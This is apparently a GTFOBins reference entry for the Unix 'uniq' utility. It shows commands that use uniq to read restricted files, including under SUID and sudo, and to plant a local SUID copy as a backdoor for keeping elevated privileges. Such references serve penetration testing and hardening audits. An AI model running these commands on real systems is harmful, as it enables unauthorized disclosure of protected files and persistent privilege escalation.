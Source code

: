 # GTFOBin: uniq

The read file content is corrupted by squashing multiple adjacent lines.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
uniq "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which uniq) .

LFILE=file_to_read
./uniq "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo uniq "$LFILE"
```